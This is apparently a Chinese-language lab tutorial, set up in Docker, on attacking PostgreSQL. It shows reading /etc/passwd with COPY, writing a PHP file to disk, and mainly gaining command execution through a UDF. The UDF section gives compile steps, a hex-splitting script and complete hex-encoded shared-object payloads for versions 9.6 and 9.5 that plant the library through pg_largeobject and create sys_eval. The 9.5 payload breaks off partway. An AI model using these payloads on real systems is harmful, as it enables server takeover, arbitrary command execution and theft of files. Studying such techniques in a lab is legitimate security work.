






## 0x00 创建环境

```
docker build -t s1r1u5/postgres:9.6 .
docker run -d --rm -p 5432:5432 s1r1u5/postgres:9.6
```


## 0x01 介绍

docker中有一个COPY命令

COPY 在 PostgreSQL表和标准文件系统文件之间交换数据，该参数指示 PostgreSQL 服务器直接从文件中读写数据
COPY TO 把一个表的所有内容都拷贝到一个文件
COPY FROM 从一个文件里拷贝数据到一个表里（把数据附加到表中已经存在的内容里）


## 0x02 postgresql文件读取

```
drop table luffy;
CREATE TABLE luffy(t TEXT);
COPY luffy FROM '/etc/passwd';
SELECT * FROM luffy;
SELECT * FROM wooyun limit 1 offset 0;
```


## 0x03 postgresql文件写入

```
DROP TABLE luffy;
CREATE TABLE luffy (t TEXT);
INSERT INTO luffy(t) VALUES ('<?php phpinfo(); ?>');
COPY luffy(t) TO '/tmp/luffy';
```






## 0x04 命令执行

postgresql默认是可以执行C语言的。python和perl需要手动配置，那么可以利用udf实现命令执行,sqlmap的作者提供了mysql和postgresql的udf源码，地址在 https://github.com/sqlmapproject/udfhack

查看版本号
```
select * from pg_language;
SELECT setting FROM pg_settings WHERE name='data_directory';
```


不同版本的postgresql需要对应不同的版本udf，我的版本是9.6，所以需要重新编译udf

```
FROM ubuntu:14.04
RUN apt-get update && apt-get upgrade -y &&  apt-key adv --keyserver keyserver.ubuntu.com --recv-keys B97B0AFCAA1A47F044F244A07FCC7D46ACCC4CF8 && echo "deb http://apt.postgresql.org/pub/repos/apt/ precise-pgdg main" > /etc/apt/sources.list.d/pgdg.list && apt-get update &&  apt-get install python-software-properties software-properties-common -y  &&  apt-get install postgresql-server-dev-9.6 vim postgresql-9.6 postgresql-client-9.6 gcc postgresql-contrib-9.6 -y
USER postgres
RUN /etc/init.d/postgresql start && psql --command "CREATE USER docker WITH SUPERUSER PASSWORD 'docker';" && createdb -O docker docker && echo "host all  all    0.0.0.0/0  md5" >> /etc/postgresql/9.6/main/pg_hba.conf && echo "listen_addresses='*'" >> /etc/postgresql/9.6/main/postgresql.conf
EXPOSE 5432
CMD ["/usr/lib/postgresql/9.6/bin/postgres", "-D", "/var/lib/postgresql/9.6/main", "-c", "config_file=/etc/postgresql/9.6/main/postgresql.conf"]


```
编译UDF

```
docker run -d --rm luffy/postgresql
docker ps
docker exec -it --user root  7b270e15daa7  /bin/bash
git clone https://github.com/sqlmapproject/udfhack.git
cd  udfhack/linux/lib_postgresqludf_sys
gcc -Wall -I/usr/include/postgresql/9.6/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so #缩减so文件大小

```


接下来我们需要将udf.so文件分割成每2048字节的块,最后一个块的大小不满足2048字节不需要考虑. 
python脚本

```
#~/usr/bin/env python 2.7
#-*- coding:utf-8 -*-
import sys
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print "Usage:python " + sys.argv[0] + "inputfile"
        sys.exit()
    fileobj = open(sys.argv[1],'rb')
    i = 0
    for b in fileobj.read():
        sys.stdout.write(r'{:02x}'.format(ord(b)))
        i = i + 1
        if i % 2048 == 0:
            print "\n"
    fileobj.close()
```

解析
```
python hex.py lib_postgresqludf_sys.so > 1.txt
```

9.6的payload

```
SELECT lo_create(9023);
insert into pg_largeobject values (9023, 0, decode('7f454c4602010100000000000000000003003e0001000000000d0000000000004000000000000000e8210000000000000000000040003800070040001a00190001000000050000000000000000000000000000000000000000000000000000004c140000000000004c1400000000000000002000000000000100000006000000f81d000000000000f81d200000000000f81d200000000000d802000000000000e00200000000000000002000000000000200000006000000181e000000000000181e200000000000181e200000000000c001000000000000c00100000000000008000000000000000400000004000000c801000000000000c801000000000000c80100000000000024000000000000002400000000000000040000000000000050e5746404000000cc11000000000000cc11000000000000cc110000000000006c000000000000006c00000000000000040000000000000051e574640600000000000000000000000000000000000000000000000000000000000000000000000000000000000000100000000000000052e5746404000000f81d000000000000f81d200000000000f81d200000000000080200000000000008020000000000000100000000000000040000001400000003000000474e550052705bc9352a28aa252e8edf0fbc5d4c32e634e800000000030000001a00000002000000070000008440030810890c99880c008dc84400001a0000002100000026000000325e541ea868be124245d5ec2e67541eaa5fbe12bae3927c5f4de3214aad229d32a1f45bd871581cb88df10e25681b32c60da6d4ead3ef0e6637d3ed339268fe000000000000000000000000000000000000000000000000000000000000000003000900580b0000000000000000000000000000de00000012000000000000000000000000000000000000000901000012000000000000000000000000000000000000001c00000020000000000000000000000000000000000000007601000012000000000000000000000000000000000000006f01000012000000000000000000000000000000000000003a0100001200000000000000000000000000000000000000d60000001200000000000000000000000000000000000000110100001200000000000000000000000000000000000000fb0000001200000000000000000000000000000000000000690100001200000000000000000000000000000000000000010000002000000000000000000000000000000000000000c500000010000000000000000000000000000000000000009800000012000000000000000000000000000000000000006301000012000000000000000000000000000000000000000101000012000000000000000000000000000000000000003f0100001200000000000000000000000000000000000000f500000012000000000000000000000000000000000000005d0100001200000000000000000000000000000000000000320100001200000000000000000000000000000000000000610000002000000000000000000000000000000000000000380000002000000000000000000000000000000000000000520000002200000000000000000000000000000000000000dd00000010000000000000000000000000000000000000002d0100001200000000000000000000000000000000000000e300000012000b00d20e0000000000000800000000000000bc00000012000b00850e0000000000004d000000000000008601000010001600d0202000000000000000000000000000b300000012000b007d0e0000000000000800000000000000ec00000012000b00da0e000000000000c3000000000000009901000010001700d82020000000000000000000000000005001000012000b003b1000000000000031010000000000001801000012000b009d0f00000000000008000000000000008300000012000b00ed0d00000000000030000000000000008d01000010001700d02020000000000000000000000000001000000012000900580b00000000000000000000000000002101000012000b00a50f0000000000008e000000000000007500000012000b00e50d00000000000008000000000000001600000012000c006c1100000000000000000000000000004701000012000b00331000000000000008000000000000009f00000012000b001d0e0000000000006000000000000000005f5f676d6f6e5f73746172745f5f005f696e6974005f66696e69005f49544d5f64657265676973746572544d436c6f6e655461626c65005f49544d5f7265676973746572544d436c6f6e655461626c65005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c61737365730050675f6d616769635f66756e6300746578745f7074725f746f5f636861725f707472006d616c6c6f63006368725f7074725f746f5f746578745f7074720070675f66696e666f5f7379735f657865630070675f6465746f6173745f646174756d0073797374656d0070667265650070675f66696e666f5f7379735f6576616c00706f70656e006667657473007265616c6c6f63007374726e6370790070636c6f73650070675f66696e666f5f7379735f62696e6576616c00666f726b00737973636f6e66006d6d617000776169747069640070675f66696e666f5f7379735f66696c657265616400666f70656e00667365656b006674656c6c0066636c6f7365006672656164006c6962632e736f2e36005f6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e322e3500000000000200', 'hex'));
insert into pg_largeobject values (9023, 1, decode('0200000002000200020002000200020002000000000002000200020002000200020002000000000002000000020001000100010001000100010001000100010001000100010001000100010001000000010001007c0100001000000000000000751a6909000002009e01000000000000f81d2000000000000800000000000000b00d000000000000001e2000000000000800000000000000700d000000000000101e2000000000000800000000000000101e200000000000d81f20000000000006000000040000000000000000000000e01f200000000000060000000c0000000000000000000000e81f20000000000006000000150000000000000000000000f01f20000000000006000000160000000000000000000000f81f200000000000060000001700000000000000000000001820200000000000070000000200000000000000000000002020200000000000070000000300000000000000000000002820200000000000070000000500000000000000000000003020200000000000070000000600000000000000000000003820200000000000070000000700000000000000000000004020200000000000070000000800000000000000000000004820200000000000070000000900000000000000000000005020200000000000070000000a00000000000000000000005820200000000000070000002200000000000000000000006020200000000000070000000b00000000000000000000006820200000000000070000000c00000000000000000000007020200000000000070000000d00000000000000000000007820200000000000070000000e00000000000000000000008020200000000000070000000f0000000000000000000000882020000000000007000000100000000000000000000000902020000000000007000000110000000000000000000000982020000000000007000000120000000000000000000000a02020000000000007000000130000000000000000000000a82020000000000007000000140000000000000000000000b02020000000000007000000170000000000000000000000b82020000000000007000000180000000000000000000000c02020000000000007000000190000000000000000000000c820200000000000070000002900000000000000000000004883ec08488b057d1420004885c07405e8c30000004883c408c30000000000000000000000000000ff3582142000ff25841420000f1f4000ff25821420006800000000e9e0ffffffff257a1420006801000000e9d0ffffffff25721420006802000000e9c0ffffffff256a1420006803000000e9b0ffffffff25621420006804000000e9a0ffffffff255a1420006805000000e990ffffffff25521420006806000000e980ffffffff254a1420006807000000e970ffffffff25421420006808000000e960ffffffff253a1420006809000000e950ffffffff2532142000680a000000e940ffffffff252a142000680b000000e930ffffffff2522142000680c000000e920ffffffff251a142000680d000000e910ffffffff2512142000680e000000e900ffffffff250a142000680f000000e9f0feffffff25021420006810000000e9e0feffffff25fa1320006811000000e9d0feffffff25f21320006812000000e9c0feffffff25ea1320006813000000e9b0feffffff25e21320006814000000e9a0feffffff25da1320006815000000e990feffffff25d21320006816000000e980feffff488d05d0132000488d3dc2132000554829f84889e54883f80e77025dc3488b05b41220004885c074f25dffe00f1f4000488d0599132000488d3d92132000554829f84889e548c1f8034889c248c1ea3f4801d048d1f875025dc3488b158f1220004885d274f25d4889c6ffe20f1f4000803d5913200000752748833d7712200000554889e5740c488d3d82102000e82dffffffe868ffffff5dc6053013200001f3c30f1f4000662e0f1f84000000000048833d50102000007426488b05271220004885c0741a55488d3d3a1020004889e5ffd05de957ffffff0f1f8000000000e94bffffff488d05c4030000c355534889fb508b17c1ea028d6afc8d7d014863ffe84afeffff4863d5488d73044889c74889d1f3a4c60410005a5b5dc341544983ccff4c89e15531ed4088e8534889fbf2ae48f7d1488d7903e812feffff4889df4889c24c89e14088e84889def2ae4889df48f7d18d048d0c0000004c89e189024088e8f2ae488d420448f7d14c01e14889c74889d0f3a45b5d415cc3488d0528030000c341554154554889fd5351488b7f20e8a8fdffff4889c74889c3e86dfdffff4989c44889c7e832fdffff4c89e74189c5e8d7fcffff483b5d2074084889dfe809feffff5a5b5d415c4489e8415dc3488d05cf020000c34157415641554154555352488b7f20e852fdffff4889c7e81afdffffbf000400004889c5e84dfdffffbf010000004989c4e840fdffff488d35690200004889efc600004889c331ede869fdffff4989c54c89eabe080000004c89e7e8c6fcffff4885c0743931c04c89e74883c9fff2ae4889df48f7d14c8d71ff468d7c35004963f7e80ffdffff488d3c284963d64c89e64889c34963efe82afcffffebb24c89efe870fcffff803b007405c6442bff00584889df5b5d415c415d415e415fe953fdffff488d0500020000c341545553488b7f20e88efcffff4989c48b28e824fdffff85c07907b801000000eb677555c1ed02bf1e000000e8dafcffff83ed04488d70ff4531c94863ed4531c031ff488d042e48f7d6b921000000ba070000004821c6e8cffbff', 'hex'));
insert into pg_largeobject values (9023, 2, decode('ff4883f8ff4889c374b6498d7424044889ea4889c7e886fbffffffd3eb0eba0100000031f689c7e854fcffff31c05b5d415cc3488d0566010000c341574989ff41564155415455534883ec28488b7f20e8ebfbffff488d7c240f488d3524010000b911000000f3a44889c7e8a0fbffff488d350b0100004889c74989c4e81efcffff4885c04889c3744431f6ba020000004889c7e8c7fbffff4889dfe87ffbffff31d231f64889c54889df4189c5e8adfbffff8d7d014863ffe892fbffff4885c04989c675144889dfe8f2faffff41c6471c0131c0e9830000004889d9ba010000004863f54889c7e8c3faffff4889dfe8cbfaffff8d7c2d014863ffe84ffbffff31d24889c34139d58d04127e23418a041688c183e00fc0e9048a44040f83e10f8a4c0c0f88445301880c5348ffc2ebd548984889dfc6040300e8b1fbffff4889df4889c5e846faffff4c89f7e83efaffff4c89e7e836faffff4889e84883c4285b5d415c415d415e415fc34883ec084883c408c300000000000000000000007200726200303132333435363738394142434445460000000000000000000000010000000100000001000000010000001c0000008a0300006400000020000000400000000100000001000000011b033b680000000c000000b4f9ffff8400000019fcffffac00000021fcffffc400000051fcffffec000000b1fcffff1c010000b9fcffff3401000006fdffff6c0100000efdffff84010000d1fdffffcc010000d9fdffffe401000067feffff140200006ffeffff2c0200001400000000000000017a5200017810011b0c070890010000240000001c00000028f9ffff80010000000e10460e184a0f0b770880003f1a3b2a33242200000000140000004400000065fbffff080000000000000000000000240000005c00000055fbffff3000000000410e108602410e188303440e20670e18410e10410e08002c000000840000005dfbffff6000000000420e108c02480e188603460e208304024c0e18410e10420e0800000000000014000000b40000008dfbffff08000000000000000000000034000000cc0000007dfbffff4d00000000420e108d02420e188c03410e208604440e288305410e30790e28410e20410e18420e10450e0800140000000401000092fbffff080000000000000000000000440000001c01000082fbffffc300000000420e108f02420e188e03420e208d04420e288c05410e308606410e388307410e4002a60e38440e30410e28420e20420e18420e10420e081400000064010000fdfbffff0800000000000000000000002c0000007c010000edfbffff8e00000000420e108c02410e188603410e20830402860e18410e10420e0800000000000014000000ac0100004bfcffff0800000000000000000000004c000000c40100003bfcffff3101000000420e108f02450e188e03420e208d04420e288c05410e308606410e388307440e600315010e38410e30410e28420e20420e18420e10420e080000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 3, decode('00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b00d000000000000700d0000000000000000000000000000101e20000000000001000000000000007c010000000000000c00000000000000580b0000000000000d000000000000006c110000000000001900000000000000f81d2000000000001b0000000000000008000000000000001a00000000000000001e2000000000001c000000000000000800000000000000f5feff6f00000000f00100000000000005000000000000005006000000000000060000000000000060020000000000000a00000000000000aa010000000000000b00000000000000180000000000000003000000000000000020200000000000020000000000000028020000000000001400000000000000070000000000000017000000000000003009000000000000070000000000000070080000000000000800000000000000c00000000000000009000000000000001800000000000000feffff6f000000005008000000000000ffffff6f000000000100000000000000f0ffff6f00000000fa07000000000000f9ffff6f000000000300000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 4, decode('181e20000000000000000000000000000000000000000000960b000000000000a60b000000000000b60b000000000000c60b000000000000d60b000000000000e60b000000000000f60b000000000000060c000000000000160c000000000000260c000000000000360c000000000000460c000000000000560c000000000000660c000000000000760c000000000000860c000000000000960c000000000000a60c000000000000b60c000000000000c60c000000000000d60c000000000000e60c000000000000f60c0000000000004743433a2028474e552920342e382e3520323031353036323320285265642048617420342e382e352d31362900002e7368737472746162002e6e6f74652e676e752e6275696c642d6964002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e696e69745f6172726179002e66696e695f6172726179002e6a6372002e646174612e72656c2e726f002e64796e616d6963002e676f74002e676f742e706c74002e627373002e636f6d6d656e74000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b000000070000000200000000000000c801000000000000c80100000000000024000000000000000000000000000000040000000000000000000000000000001e000000f6ffff6f0200000000000000f001000000000000f0010000000000006c00000000000000030000000000000008000000000000000000000000000000280000000b000000020000000000000060020000000000006002000000000000f0030000000000000400000002000000080000000000000018000000000000003000000003000000020000000000000050060000000000005006000000000000aa0100000000000000000000000000000100000000000000000000000000000038000000ffffff6f0200000000000000fa07000000000000fa07000000000000540000000000000003000000000000000200000000000000020000000000000045000000feffff6f02000000000000005008000000000000500800000000000020000000000000000400000001000000080000000000000000000000000000005400000004000000020000000000000070080000000000007008000000000000c0000000000000000300000000000000080000000000000018000000000000005e000000040000004200000000000000300900000000000030090000000000002802000000000000030000000a0000000800000000000000180000000000000068000000010000000600000000000000580b000000000000580b0000000000001a0000000000000000000000000000000400000000000000000000000000000063000000010000000600000000000000800b000000000000800b00000000000080010000000000000000000000000000100000000000000010000000000000006e000000010000000600000000000000000d000000000000000d0000000000006c04000000000000000000000000000010000000000000000000000000000000740000000100000006000000000000006c110000000000006c1100000000000009000000000000000000000000000000040000000000000000000000000000007a000000010000000200000000000000801100000000000080110000000000004c0000000000000000000000000000001000000000000000000000000000000082000000010000000200000000000000cc11000000000000cc110000000000006c00000000000000000000000000000004000000000000000000000000000000900000000100000002000000000000003812000000000000381200000000000014020000000000000000000000000000080000000000000000000000000000009a0000000e0000000300000000000000f81d200000000000f81d0000000000000800000000000000000000000000000008000000000000000000000000000000a60000000f0000000300000000000000001e200000000000001e0000000000000800000000000000000000000000000008000000000000000000000000000000b2000000010000000300000000000000081e200000000000081e0000000000000800000000000000000000000000000008000000000000000000000000000000b7000000010000000300000000000000101e200000000000101e0000000000000800000000000000000000000000000008000000000000000000000000000000c4000000060000000300000000000000181e200000000000181e000000000000c001000000000000040000000000000008000000000000001000000000000000cd000000010000000300000000000000d81f200000000000d81f0000000000002800000000000000000000000000000008000000000000000800000000000000d200000001000000030000000000000000202000000000000020000000000000d000000000000000000000000000000008000000000000000800000000000000db000000080000000300000000000000d020200000000000d0200000000000000800000000000000000000000000000001000000000000000000000000000000e00000000100000030000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 5, decode('d0200000000000002d00000000000000000000000000000001000000000000000100000000000000010000000300000000000000000000000000000000000000fd20000000000000e900000000000000000000000000000001000000000000000000000000000000', 'hex'));
SELECT lo_export(9023, '/tmp/testeval.so');
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/tmp/testeval.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;
select sys_eval('id');
drop function sys_eval(text);

```


9.5的payload
```
SELECT lo_create(9023);
insert into pg_largeobject values (9023, 0, decode('7f454c4602010100000000000000000003003e0001000000700d0000000000004000000000000000f0210000000000000000000040003800070040001a0019000100000005000000000000000000000000000000000000000000000000000000dc14000000000000dc1400000000000000002000000000000100000006000000001e000000000000001e200000000000001e200000000000e002000000000000e80200000000000000002000000000000200000006000000181e000000000000181e200000000000181e200000000000c001000000000000c00100000000000008000000000000000400000004000000c801000000000000c801000000000000c80100000000000024000000000000002400000000000000040000000000000050e57464040000005c120000000000005c120000000000005c120000000000006c000000000000006c00000000000000040000000000000051e574640600000000000000000000000000000000000000000000000000000000000000000000000000000000000000100000000000000052e5746404000000001e000000000000001e200000000000001e200000000000000200000000000000020000000000000100000000000000040000001400000003000000474e550011969647bc317a99defc53429fded788de0f197e00000000030000001b00000002000000070000008440030810890c99880c008dc84400001b0000002200000027000000325e541ea868be124245d5ec2e67541eaa5fbe12bae3927c5f4de3214aad229d32a1f45bd871581cb88df10e25681b32c60da6d4ead3ef0e6637d3ed339268fe000000000000000000000000000000000000000000000000000000000000000003000900b80b0000000000000000000000000000de00000012000000000000000000000000000000000000000901000012000000000000000000000000000000000000001c00000020000000000000000000000000000000000000007601000012000000000000000000000000000000000000006f01000012000000000000000000000000000000000000007c01000012000000000000000000000000000000000000003a0100001200000000000000000000000000000000000000d60000001200000000000000000000000000000000000000110100001200000000000000000000000000000000000000fb0000001200000000000000000000000000000000000000690100001200000000000000000000000000000000000000010000002000000000000000000000000000000000000000c500000010000000000000000000000000000000000000009800000012000000000000000000000000000000000000006301000012000000000000000000000000000000000000000101000012000000000000000000000000000000000000003f0100001200000000000000000000000000000000000000f500000012000000000000000000000000000000000000005d0100001200000000000000000000000000000000000000320100001200000000000000000000000000000000000000610000002000000000000000000000000000000000000000380000002000000000000000000000000000000000000000520000002200000000000000000000000000000000000000dd00000010000000000000000000000000000000000000002d0100001200000000000000000000000000000000000000e300000012000b00420f0000000000000800000000000000bc00000012000b00f50e0000000000004d000000000000009701000010001600e0202000000000000000000000000000b300000012000b00ed0e0000000000000800000000000000ec00000012000b004a0f000000000000c300000000000000aa01000010001700e82020000000000000000000000000005001000012000b00ab1000000000000056010000000000001801000012000b000d1000000000000008000000000000008300000012000b005d0e00000000000030000000000000009e01000010001700e02020000000000000000000000000001000000012000900b80b00000000000000000000000000002101000012000b0015100000000000008e000000000000007500000012000b00550e00000000000008000000000000001600000012000c00041200000000000000000000000000004701000012000b00a31000000000000008000000000000009f00000012000b008d0e0000000000006000000000000000005f5f676d6f6e5f73746172745f5f005f696e6974005f66696e69005f49544d5f64657265676973746572544d436c6f6e655461626c65005f49544d5f7265676973746572544d436c6f6e655461626c65005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c61737365730050675f6d616769635f66756e6300746578745f7074725f746f5f636861725f707472006d616c6c6f63006368725f7074725f746f5f746578745f7074720070675f66696e666f5f7379735f657865630070675f6465746f6173745f646174756d0073797374656d0070667265650070675f66696e666f5f7379735f6576616c00706f70656e006667657473007265616c6c6f63007374726e6370790070636c6f73650070675f66696e666f5f7379735f62696e6576616c00666f726b00737973636f6e66006d6d617000776169747069640070675f66696e666f5f7379735f66696c657265616400666f70656e00667365656b006674656c6c0066636c6f7365006672656164005f5f737461636b5f63686b5f6661696c006c6962632e736f2e36005f', 'hex'));
